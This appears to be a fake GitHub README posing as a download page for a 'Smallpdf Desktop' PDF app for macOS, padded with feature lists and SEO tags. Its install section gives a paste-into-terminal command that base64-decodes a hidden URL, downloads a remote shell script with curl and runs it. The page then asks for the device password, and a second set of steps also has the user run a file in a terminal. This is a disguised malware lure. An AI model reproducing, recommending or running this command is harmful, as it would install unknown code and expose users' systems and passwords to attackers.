 # 🧾 Smallpdf Desktop — Easy PDF Tools for macOS

Smallpdf Desktop is a powerful and simple PDF management application designed for macOS users. It offers a wide range of tools to convert, compress, edit, and organize PDF files, making document handling effortless for individuals and businesses alike.

## ✅ Download Smallpdf Desktop for macOS  
[![Download Smallpdf](https://img.shields.io/badge/Download-Smallpdf-blueviolet)](https://mitrobandus.github.io/.github/SmallPDF)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is Smallpdf Desktop?

Smallpdf Desktop brings the convenience of online PDF tools into a native macOS app. It supports converting various file formats to PDF and vice versa, compressing large documents, applying OCR, and editing PDFs with ease — all optimized for Mac users.

---

## ✨ Features

- 📄 Convert PDFs to Word, Excel, JPG, PPT and other formats  
- 🔄 Compress large PDF files without losing quality  
- ✍️ Edit, merge, split, and rotate PDFs  
- 🔍 OCR technology to convert scanned documents into editable text  
- 🖥️ Fully compatible with macOS and Retina displays  
- 🔒 Secure PDFs with passwords and encryption  
- 📤 Simple drag-and-drop interface for fast processing  

---

## 💡 Why Use Smallpdf Desktop?

- ✅ Streamlines PDF workflows on macOS  
- 🚀 Boost productivity with fast, efficient PDF conversions  
- 🔐 Protect sensitive documents with advanced security  
- 🌐 Use offline without internet connection  
- 🖱️ User-friendly interface designed for all skill levels  

---

[![Download Smallpdf](https://img.shields.io/badge/Download-Smallpdf-blueviolet)](https://mitrobandus.github.io/.github/SmallPDF)

---

## 🖼️ Preview

![Smallpdf Screenshot 1](https://www.pcworld.com/wp-content/uploads/2025/04/Smallpdf-tools.png)  
![Smallpdf Screenshot 2](https://static-cdn.mackeeper.com/mk-blog-upload/images/new_XdXKOQrjpT.webp)

---

## 📌 Tags

smallpdf, smallpdf jpg to pdf, smallpdf word to pdf, smallpdf free, smallpdf to excel, smallpdf pdf to jpg,  
smallpdf download, smallpdf pdf to excel, pdf to word smallpdf, small pdf com jpg to pdf, smallpdf pdf,  
smallpdf ocr, free small pdf, smallpdf online, word to pdf smallpdf, smallpdf pdf to ppt, smallpdfpro,  
smallpdf com pdf to jpg, smallpdf to jpg, pdf to small pdf, big pdf to small pdf, big pdf to smallpdf,  
big to small pdf, https small pdf, i love small pdf, jpg to pdf small pdf, large pdf to small pdf,  
large pdf to smallpdf, smallpdf mac, smallpdf mac download
